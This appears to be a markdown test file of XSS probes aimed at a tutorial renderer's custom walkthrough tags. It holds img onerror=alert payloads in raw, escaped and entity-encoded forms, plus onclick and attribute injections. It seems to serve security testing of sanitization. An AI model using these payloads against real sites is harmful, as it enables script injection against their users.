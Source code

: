 #Header1 <img ng-template="xss" ng-click="xss" src=x1 onerror=alert(1)>
1
#Header2 \x3cimg src=x2 onerror=alert(2)\x3e
1
#Header3 \u003cimg src=x3 onerror=alert(3)\u003e
1
#Header3 &lt;img src=x3 onerror=alert(3)&gt;

a
<img src=x1 onerror=alert(1)>
b
\x3cimg src=x2 onerror=alert(2)\x3e
c
\u003cimg src=x3 onerror=alert(3)\u003e
d
&lt;img src=x3 onerror=alert(3)&gt;
e
<walkthrough-editor-spotlight spotlightId="menu-terminal-new-terminal">New Terminal</walkthrough-editor-spotlight>
f
<walkthrough-editor-spotlight xss=123 onclick=alert() spotlightId="menu-terminal-new-terminal">New Terminal 2</walkthrough-editor-spotlight>
g
<walkthrough-ICON_NAME data-xss></walkthrough-ICON_NAME>
<walkthrough-cloud-shell-icon data-xss>aasd</walkthrough-cloud-shell-icon>
<walkthrough-web-preview-icon data-xss>asd</walkthrough-web-preview-icon>
<walkthrough-cloud-shell-editor-icon data-xss></walkthrough-cloud-shell-editor-icon>
<walkthrough-nav-menu-icon data-xss></walkthrough-nav-menu-icon>
<walkthrough-notification-menu-icon data-xss></walkthrough-notification-menu-icon>
<walkthrough-pin-section-icon data-xss></walkthrough-pin-section-icon>
h
<walkthrough-tutorial-duration duration="DURATION"></walkthrough-tutorial-duration>
h1
<walkthrough-tutorial-duration duration="XSSDURATION"></walkthrough-tutorial-duration>
h2
<walkthrough-tutorial-duration duration="XSSDURATION<xss>"></walkthrough-tutorial-duration>
h3
```<img src=x1 onerror=alert(1)>
\x3cimg src=x2 onerror=alert(2)\x3e
\u003cimg src=x3 onerror=alert(3)\u003e
&lt;img src=x3 onerror=alert(3)&gt;
<walkthrough-editor-spotlight spotlightId="menu-terminal-new-terminal">New Terminal</walkthrough-editor-spotlight>
<walkthrough-editor-spotlight xss=123 onclick=alert() spotlightId="menu-terminal-new-terminal">New Terminal 2</walkthrough-editor-spotlight>
```
